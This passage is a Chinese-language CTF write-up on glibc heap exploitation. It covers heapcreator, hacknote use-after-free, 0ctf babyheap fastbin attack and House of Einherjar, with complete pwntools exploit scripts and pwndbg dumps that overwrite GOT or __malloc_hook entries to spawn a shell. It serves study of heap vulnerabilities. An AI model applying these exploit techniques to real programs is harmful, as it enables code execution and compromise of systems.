create(0x30, p64(0) * 4 + p64(0x30) + p64(e.got['free']))  #1
```

```
pwndbg> x /10gx 0x06020A0
0x6020a0 <heaparray>:	0x0000000000603010	0x0000000000603070
0x6020b0 <heaparray+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <heaparray+32>:	0x0000000000000000	0x0000000000000000
0x6020d0 <heaparray+48>:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray+64>:	0x0000000000000000	0x0000000000000000

pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021     //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021     //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041     //new_heap1_content(原来的heap1_struct)
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000     //new_heap1_struct(原来的heap1_content)
0x603070:	0x0000000000000030	0x0000000000602018     
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000

pwndbg> x /gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007ffff7a91a70
```

第五步：泄露got表里面得内容，即free函数得真实地址，找到libc版本

```python
# leak freeaddr
show(1)
p.recvuntil("Content : ")
data = p.recvuntil("Done !")
free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
print('free_got_addr:'+hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
system_addr = libc_base+libc.dump('system')
# libc_base = free_addr - libc.symbols['free']
# log.success('libc base addr: ' + hex(libc_base))
# system_addr = libc_base + libc.symbols['system']
print('system_addr:'+hex(system_addr))
```

第六步：将free函数got表得内容改为system函数地址

```python
edit(1, p64(system_addr))
```

因为此时new_heap2_content_ptr即为free函数got表地址，故只需要编辑new_heap2即可

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021   //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021   //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041   //new_heap1_content(原来的heap1_struct)
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000   //new_heap1_struct(原来的heap1_content)
0x603070:	0x0000000000000030	0x0000000000602018
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
pwndbg> x /gx 0x0000000000602018
0x602018 <free@got.plt>:	0x00007ffff7a53380
pwndbg> x/gx 0x00007ffff7a53380
0x7ffff7a53380 <__libc_system>:	0xfa86e90b74ff8548
```

第七步:在第二步覆盖size的时候我们往heap0_content写入了/bin/sh字符串，所以此时删除heap0，free(heap0_struct_ptr+1),即free(heap0_content_ptr),即system('/bin/sh')拿到shell

##### 完整exp

参考ctf wiki：

```
# -*- coding: utf-8 -*-
from pwn import*
from LibcSearcher import *

context(os='linux',arch='amd64')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

p = process('./heapcreator')
e = ELF('./heapcreator')

def create(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.sendline(content)

def edit(idx,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))
    p.recvuntil('Content of heap : ')
    p.sendline(content)

def show(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))

def delete(idx):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(idx))

# gdb.attach(p)
create(0x18,'aaaa')
create(0x18,'bbbb')

# overwrite heap 1's struct's size to 0x41
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
# trigger heap 1's struct to fastbin 0x40
# heap 1's content to fastbin 0x20
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(e.got['free']))  #1
# leak freeaddr
show(1)
p.recvuntil("Content : ")
data = p.recvuntil("Done !")
free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
print('free_got_addr:'+hex(free_addr))

libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
system_addr = libc_base+libc.dump('system')
# libc_base = free_addr - libc.symbols['free']
# log.success('libc base addr: ' + hex(libc_base))
# system_addr = libc_base + libc.symbols['system']
print('system_addr:'+hex(system_addr))
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
p.interactive()
```

##### 参考链接

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/chunk-extend-overlapping/#hitcon-trainging-lab13

https://www.freesion.com/article/87911143272/

## Use After Free

### 原理

### 例题

#### HITCON-training  [lab 10 hacknote](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/use_after_free/hitcon-training-hacknote) 

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/use-after-free$ checksec hacknote
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/use-after-free/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8046000)
```

没开启PIE，可利用程序中已有的函数

##### 程序流程

add_note：根据程序，我们可以看出程序最多可以添加 5 个 note。每个 note 有两个字段 put 与 content，其中 put 会被设置为一个函数，其函数会输出 content 具体的内容。

print_note：print_note 就是简单的根据给定的 note 的索引来输出对应索引的 note 的内容。

del_note：del_note 会根据给定的索引来释放对应的 note。但是值得注意的是，在 删除的时候，只是单纯进行了 free，而没有设置为 NULL，那么显然，这里是存在 Use After Free 的情况的。

##### 漏洞分析

del_note处没有将相关指针设置成NULL，导致删除note后还可以利用

```
 if ( *(&notelist + v1) )
  {
    free(*((void **)*(&notelist + v1) + 1));
    free(*(&notelist + v1));
    puts("Success");
  }
```

存在magic函数

```
int magic()
{
  return system("cat flag");
}
```

##### 结构图


##### 思路

- 申请 note0，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
- 申请 note1，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
- 释放 note0
- 释放 note1
- 此时，大小为 16 的 fast bin chunk 中链表为 note1->note0
- 申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则
- note2 其实会分配 note1 对应的内存块。
- real content 对应的 chunk 其实是 note0。
- 如果我们这时候向 note2 real content 的 chunk 部分写入 magic 的地址，那么由于我们没有 note0 为 NULL。当我们再次尝试输出 note0 的时候，程序就会调用 magic 函数。

##### 详细步骤

第一步：申请两个note

```python
add_note(16,'aaaa') #note0
add_note(16,'bbbb') #note1
```

申请的大小不能与note_truct大小一致

```
pwndbg> x /4wx 0x0804A070          //notelist
0x804a070 <notelist>:	0x0804b008	0x0804b030	0x00000000	0x00000000

pwndbg> heap
Allocated chunk | PREV_INUSE       //note0_struct
Addr: 0x804b000
Size: 0x11

Allocated chunk | PREV_INUSE       //note0_content
Addr: 0x804b010
Size: 0x19

Allocated chunk | PREV_INUSE       //note1_struct
Addr: 0x804b028
Size: 0x11

Allocated chunk | PREV_INUSE        //note1_content
Addr: 0x804b038
Size: 0x19

Top chunk | PREV_INUSE
Addr: 0x804b050
Size: 0x20fb1
```

第二步：释放掉两个申请的heap

```python
del_note(0)
del_note(1)
```

释放后的四个chunk都会加入到fastbins中

```
pwndbg> x /4wx 0x0804A070  //由于释放后没有将notelist中存储的指针设置为NULL，故后续还可以利用
0x804a070 <notelist>:	0x0804b008	0x0804b030	0x00000000	0x00000000

pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b000
Size: 0x11
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b010
Size: 0x19
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b028
Size: 0x11
fd: 0x804b000

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b038
Size: 0x19
fd: 0x804b010

Top chunk | PREV_INUSE
Addr: 0x804b050
Size: 0x20fb1

pwndbg> bins     //相应的大小bins
fastbins
0x10: 0x804b028 —▸ 0x804b000 ◂— 0x0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0x0  //第一次申请的内容大小还是有原因的，只要不与note_struct申请的chunk大小相同即可
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

pwndbg> x /16wx 0x804b000    //释放后里面的chunk内容没有发生改变
0x804b000:	0x00000000	0x00000011	0x00000000	0x0804b018
0x804b010:	0x00000000	0x00000019	0x00000000	0x0000000a
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000011
0x804b030:	0x0804b000	0x0804b040	0x00000000	0x00000019
```

第三步：申请大小为8字节的note2

```
add_note(8, p32(magic_addr))#note2
```

因为真实大小为8字节，所以会从0x10的fastbins分配chunk，正好这些chunk是之前存储note0_struct和note1_struct的chunk

```
pwndbg> x /4wx 0x0804A070     notelist
0x804a070 <notelist>:	0x0804b008	0x0804b030	0x0804b030//note2_struct_ptr	0x00000000

pwndbg> heap
Allocated chunk | PREV_INUSE   //note2_content,且往内容里面写入了magic地址        
Addr: 0x804b000
Size: 0x11

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b010
Size: 0x19
fd: 0x00

Allocated chunk | PREV_INUSE  //因为之前此chunk后加入fastbins，故先分配它给note2_struct
Addr: 0x804b028
Size: 0x11

Free chunk (fastbins) | PREV_INUSE
Addr: 0x804b038
Size: 0x19
fd: 0x804b010

Top chunk | PREV_INUSE
Addr: 0x804b050
Size: 0x20fb1

pwndbg> bins      //剩下的bins
fastbins
0x10: 0x0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0x0
0x20: 0x0
0x28: 0x0
0x30: 0x0
0x38: 0x0
0x40: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

pwndbg> x /16wx 0x804b000
0x804b000:	0x00000000	0x00000011	0x08048986//这个地址就是magic地址	0x0804b00a//之前留下来的脏数据
0x804b010:	0x00000000	0x00000019	0x00000000	0x0000000a
0x804b020:	0x00000000	0x00000000	0x00000000	0x00000011
0x804b030:	0x0804865b	0x0804b008//指向note2_content_ptr  	0x00000000	0x00000019
```

第四步：输出原来的note0

```python
print_note(0)
```

因为在之前释放note0和note1的时候没有将notelist中的note_struct_ptr设置为NULL(0)，故notelist还保存就指针，在输出note0的时候会调用\*notelist\[0\](\*notelist[0]),即调用magic函数

##### 完整exp

```python
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='i386')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./hacknote')
# gdb.attach(p)
def add_note(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Note size :')
    p.sendline(str(size))
    p.recvuntil('Content :')
    p.sendline(content)

def del_note(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(idx))

def print_note(idx):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(idx))

magic_addr = 0x08048986

add_note(16,'aaaa') #note0
add_note(16,'bbbb') #note1

del_note(0)
del_note(1)

add_note(8, p32(magic_addr))#note2
print_note(0)

p.interactive()
```

##### 参考链接

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/use-after-free

## fastbin attack

### 原理

### 例题

#### hitcontraining_secretgarden

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/fastbin-attack$ checksec secretgarden
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/fastbin-attack/secretgarden'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### 程序流程

#### 2017 0ctf babyheap

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/fastbin-attack$ checksec babyheap
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/fastbin-attack/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

开启了全保护

##### 详细步骤

**第一步：泄露libc基地址**

```
# 1. leak libc base
allocate(0x10)  # idx 0, 0x00
allocate(0x10)  # idx 1, 0x20
allocate(0x10)  # idx 2, 0x40
allocate(0x10)  # idx 3, 0x60
allocate(0x80)  # idx 4, 0x80
# free idx 1, 2, fastbin[0]->idx1->idx2->NULL
free(2)
free(1)
```

申请的堆块情况，便于与下面的情况进行对比

```
pwndbg> heap
Allocated chunk | PREV_INUSE           //0
Addr: 0x555555604000
Size: 0x21

Free chunk (fastbins) | PREV_INUSE     //1
Addr: 0x555555604020
Size: 0x21
fd: 0x555555604040

Free chunk (fastbins) | PREV_INUSE     //2
Addr: 0x555555604040
Size: 0x21
fd: 0x00

Allocated chunk | PREV_INUSE           //3
Addr: 0x555555604060
Size: 0x21

Allocated chunk | PREV_INUSE           //4
Addr: 0x555555604080
Size: 0x91

Top chunk | PREV_INUSE
Addr: 0x555555604110
Size: 0x20ef1

pwndbg> bins
fastbins
0x20: 0x555555604020 —▸ 0x555555604040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> x /20gx 0x555555604000
0x555555604000:	0x0000000000000000	0x0000000000000021       //0
0x555555604010:	0x0000000000000000	0x0000000000000000
0x555555604020:	0x0000000000000000	0x0000000000000021       //1
0x555555604030:	0x0000555555604040	0x0000000000000000
0x555555604040:	0x0000000000000000	0x0000000000000021       //2
0x555555604050:	0x0000000000000000	0x0000000000000000
0x555555604060:	0x0000000000000000	0x0000000000000021       //3
0x555555604070:	0x0000000000000000	0x0000000000000000
0x555555604080:	0x0000000000000000	0x0000000000000091       //4
0x555555604090:	0x0000000000000000	0x0000000000000000
```

伪造chunk块，使idx1的fd指向idx4(便于后面分配堆块的时候分配chunk4)，由于堆块都是对齐的，所以idx4的第一个字节一定是0x80，同时也需要伪造idx4的size为相应的大小

```python
# edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
fill(0, len(payload), payload)

# if we want to allocate at idx4, we must set it's size as 0x21
payload = 0x10 * 'a' + p64(0) + p64(0x21)
fill(3, len(payload), payload)
```

情况如下：

```
pwndbg> bins
fastbins
0x20: 0x555555604020 —▸ 0x555555604080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
pwndbg> x /20gx 0x555555604000
0x555555604000:	0x0000000000000000	0x0000000000000021
0x555555604010:	0x6161616161616161	0x6161616161616161
0x555555604020:	0x0000000000000000	0x0000000000000021
0x555555604030:	0x0000555555604080	0x0000000000000000
0x555555604040:	0x0000000000000000	0x0000000000000021
0x555555604050:	0x0000000000000000	0x0000000000000000
0x555555604060:	0x0000000000000000	0x0000000000000021
0x555555604070:	0x6161616161616161	0x6161616161616161
0x555555604080:	0x0000000000000000	0x0000000000000021
0x555555604090:	0x0000000000000000	0x0000000000000000
```

重新申请堆块

```python
allocate(0x10)  # idx 1
allocate(0x10)  # idx 2, which point to idx4's location

# if want to free idx4 to unsorted bin, we must fix its size
payload = 0x10 * 'a' + p64(0) + p64(0x91)
fill(3, len(payload), payload)
```

这样idx2就是指向的idx4的位置了，因为上一步为了分配fastbins而改写了size，现在需要重新改回大小，这样free掉idx4的时候才能将其放入到unsortedbin。

```
pwndbg> x /20gx 0x555555604000
0x555555604000:	0x0000000000000000	0x0000000000000021      //0
0x555555604010:	0x6161616161616161	0x6161616161616161
0x555555604020:	0x0000000000000000	0x0000000000000021      //1
0x555555604030:	0x0000000000000000	0x0000000000000000
0x555555604040:	0x0000000000000000	0x0000000000000021
0x555555604050:	0x0000000000000000	0x0000000000000000
0x555555604060:	0x0000000000000000	0x0000000000000021      //3
0x555555604070:	0x6161616161616161	0x6161616161616161
0x555555604080:	0x0000000000000000	0x0000000000000091      //2和4
0x555555604090:	0x0000000000000000	0x0000000000000000
```

现在需要free(4)

```
# allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
allocate(0x80)  # idx 5
free(4)
# as idx 2 point to idx4, just show this
dump(2)
p.recvuntil('Content: \n')
unsortedbin_addr = u64(p.recv(8))
print(hex(unsortedbin_addr))
main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
log.success('main arena addr: ' + hex(main_arena))
main_arena_offset = 0x3c3b20  #3c3b20
# malloc_hook = main_arena-0x10
# libc_base1 = malloc_hook-libc.sym['__malloc_hook']
# print(hex(libc_base1))
libc_base = main_arena - main_arena_offset
log.success('libc base addr: ' + hex(libc_base))
```

free掉idx4之后，该chunk会进入unsortedbin，此时fd和bk会指向main_arena，因为idx2还指向该位置，故dump(2)从而泄露地址，再通过计算泄露基地址

```
pwndbg> x /20gx 0x555555604000
0x555555604000:	0x0000000000000000	0x0000000000000021
0x555555604010:	0x6161616161616161	0x6161616161616161
0x555555604020:	0x0000000000000000	0x0000000000000021
0x555555604030:	0x0000000000000000	0x0000000000000000
0x555555604040:	0x0000000000000000	0x0000000000000021
0x555555604050:	0x0000000000000000	0x0000000000000000
0x555555604060:	0x0000000000000000	0x0000000000000021
0x555555604070:	0x6161616161616161	0x6161616161616161
0x555555604080:	0x0000000000000000	0x0000000000000091
0x555555604090:	0x00007ffff7dd1b78	0x00007ffff7dd1b78    //得到这个地址
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x555555604080 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x555555604080
smallbins
empty
largebins
empty
```

从而计算libc基地址

```
[+] main arena addr: 0x7ffff7dd1b20
[+] libc base addr: 0x7ffff7a0e000
```

**第二步：分配chunk到__malloc_hook附近**

将unsortedbin中的chunk(也就是之前的idx4)分割成两部分

```
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)
```

上面我们只是借助unsortbin泄露基地址，后期需要利用fastbins，故将idx4拆开

```
pwndbg> heap
Allocated chunk | PREV_INUSE         //0
Addr: 0x555555604000
Size: 0x21

Allocated chunk | PREV_INUSE         //1
Addr: 0x555555604020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555604040
Size: 0x21

Allocated chunk | PREV_INUSE         //3
Addr: 0x555555604060
Size: 0x21

Free chunk (fastbins) | PREV_INUSE
Addr: 0x555555604080
Size: 0x71
fd: 0x00

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5555556040f0
Size: 0x21
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk                     //5
Addr: 0x555555604110
Size: 0x90

Top chunk | PREV_INUSE
Addr: 0x5555556041a0
Size: 0x20e61

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555604080 ◂— 0x0
0x80: 0x0
unsortedbin
all: 0x5555556040f0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x5555556040f0
smallbins
empty
largebins
empty
```

本来idx4(原)处的fd指针指向的是0，现在伪造成main_arena - 0x33

```python
# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)
```

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555604080 —▸ 0x7ffff7dd1aed (_IO_wide_data_0+301) ◂— 0xfff7a933f0000000
0x80: 0x0
unsortedbin
all: 0x5555556040f0 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x5555556040f0
smallbins
empty
largebins
empty
pwndbg> x /20gx 0x555555604000
0x555555604000:	0x0000000000000000	0x0000000000000021
0x555555604010:	0x6161616161616161	0x6161616161616161
0x555555604020:	0x0000000000000000	0x0000000000000021
0x555555604030:	0x0000000000000000	0x0000000000000000
0x555555604040:	0x0000000000000000	0x0000000000000021
0x555555604050:	0x0000000000000000	0x0000000000000000
0x555555604060:	0x0000000000000000	0x0000000000000021
0x555555604070:	0x6161616161616161	0x6161616161616161
0x555555604080:	0x0000000000000000	0x0000000000000071      //2
0x555555604090:	0x00007ffff7dd1aed	0x0000000000000000      //伪造的数据
```

现在重新分配两个chunk，会从fastbins中选择

```python
allocate(0x60)  # idx 4
allocate(0x60)  # idx 6
```

第一个idx4的起始则在0x555555604080，第二个idx6则在0x7ffff7dd1aed

故可以在idx6上面伪造数据，使得one_gatget的地址覆盖__malloc_hook的地址

伪造前：

```
pwndbg> x /10gx 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a933f0000000	0xfff7a92fd000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
```

伪造后：

```
pwndbg> x /10gx 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0x6161616161616161	0x6161616161616161
0x7ffff7dd1b0d <__realloc_hook+5>:	0xfff7a5325a616161	0x000000000000007f
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
```

准确找到__malloc_hook的位置

```
pwndbg> x /gx 0x7ffff7dd1b2d-13-0x10
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7a5325a
pwndbg> x /gx 0x00007ffff7a5325a
0x7ffff7a5325a <do_system+1098>:	0x480037dc57058b48
```

成功伪造，伪造payload如下：

```python
one_gadget_addr = libc_base + 0x4525a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
```

chunk的起始地址是在main_arena - 0x33处，然后实际写入的地址则是再main_arena - 0x23处，而__malloc_hook的地址则是再main_arena - 0x10处，这样构造payload就很简单了

触发伪造的payload:

```python
allocate(0x100)
```

##### 完整exp

ctf wiki：

```python
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./babyheap')
libc = ELF('/home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')

def allocate(size):
    p.recvuntil('Command: ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))


def fill(idx, size, content):
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Content: ')
    p.send(content)

def free(idx):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))


def dump(idx):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset

offset_unsortedbin_main_arena = offset_bin_main_arena(0)

# 1. leak libc base
allocate(0x10)  # idx 0, 0x00
allocate(0x10)  # idx 1, 0x20
allocate(0x10)  # idx 2, 0x40
allocate(0x10)  # idx 3, 0x60
allocate(0x80)  # idx 4, 0x80
# free idx 1, 2, fastbin[0]->idx1->idx2->NULL
free(2)
free(1)

# edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
fill(0, len(payload), payload)

# if we want to allocate at idx4, we must set it's size as 0x21
payload = 0x10 * 'a' + p64(0) + p64(0x21)
fill(3, len(payload), payload)

allocate(0x10)  # idx 1
allocate(0x10)  # idx 2, which point to idx4's location

# if want to free idx4 to unsorted bin, we must fix its size
payload = 0x10 * 'a' + p64(0) + p64(0x91)
fill(3, len(payload), payload)

# allocate a chunk in order when free idx4, idx 4 not consolidate with top chunk
allocate(0x80)  # idx 5
free(4)
# as idx 2 point to idx4, just show this
dump(2)
p.recvuntil('Content: \n')
unsortedbin_addr = u64(p.recv(8))
print(hex(unsortedbin_addr))
main_arena = unsortedbin_addr - offset_unsortedbin_main_arena
log.success('main arena addr: ' + hex(main_arena))
main_arena_offset = 0x3c3b20  #3c3b20
# malloc_hook = main_arena-0x10
# libc_base1 = malloc_hook-libc.sym['__malloc_hook']
# print(hex(libc_base1))
libc_base = main_arena - main_arena_offset
log.success('libc base addr: ' + hex(libc_base))


# 2. malloc to malloc_hook nearby
# allocate a 0x70 size chunk same with malloc hook nearby chunk, idx4
allocate(0x60)
free(4)

# edit idx4's fd point to fake chunk
fake_chunk_addr = main_arena - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)

allocate(0x60)  # idx 4
allocate(0x60)  # idx 6

one_gadget_addr = libc_base + 0x4525a
payload = 0x13 * 'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
# gdb.attach(p)

# trigger malloc_hook
allocate(0x100)
p.interactive()
```


## House Of Einherjar

### 原理

house of einherjar 是一种堆利用技术，由 `Hiroki Matsukuma` 提出。该堆利用技术可以强制使得 `malloc` 返回一个几乎任意地址的 chunk 。其主要在于滥用 `free` 中的后向合并操作（合并低地址的 chunk），从而使得尽可能避免碎片化。

#### 产生原因

#### 利用思路


### 例题

#### 测试案例

此例的主要目的是通过我们构造的chunk，再执行free chunk的同时能够通过unlink free掉我们构造的chunk

源代码

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

ctf wiki的攻击代码如下：

```
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

过程：

断点10行之前：申请的chunk

```
pwndbg> parseheap
addr                prev                size                 status              fd                bk                
0x55555555a000      0x0                 0x210                Used                None              None
0x55555555a210      0x0                 0x20                 Used                None              None
0x55555555a230      0x0                 0x100                Used                None              None
0x55555555a330      0x0                 0x30                 Used                None              None
0x55555555a360      0x0                 0x410                Used                None              None
```

断点16行：

第一个read写入的数据：

```
pwndbg> x /100gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000211      //s0
0x55555555a010:	0x0000000000000000	0x0000000000000101      //构造的数据
0x55555555a020:	0x000055555555a010	0x000055555555a010
0x55555555a030:	0x4141414141414141	0x4141414141414141
0x55555555a040:	0x4141414141414141	0x4141414141414141
0x55555555a050:	0x4141414141414141	0x4141414141414141
0x55555555a060:	0x4141414141414141	0x4141414141414141
0x55555555a070:	0x4141414141414141	0x4141414141414141
0x55555555a080:	0x4141414141414141	0x4141414141414141
0x55555555a090:	0x4141414141414141	0x4141414141414141
0x55555555a0a0:	0x4141414141414141	0x4141414141414141
0x55555555a0b0:	0x4141414141414141	0x4141414141414141
0x55555555a0c0:	0x4141414141414141	0x4141414141414141
0x55555555a0d0:	0x4141414141414141	0x4141414141414141
0x55555555a0e0:	0x4141414141414141	0x4141414141414141
0x55555555a0f0:	0x4141414141414141	0x4141414141414141
0x55555555a100:	0x4141414141414141	0x4141414141414141       //chunk到这里结束
0x55555555a110:	0x0000000000000100	0x000000000000000a
0x55555555a120:	0x0000000000000000	0x0000000000000000
0x55555555a130:	0x0000000000000000	0x0000000000000000
```

第二个read写入的数据

```
pwndbg> x /20gx 0x55555555a210
0x55555555a210:	0x0000000000000000	0x0000000000000021 //s1
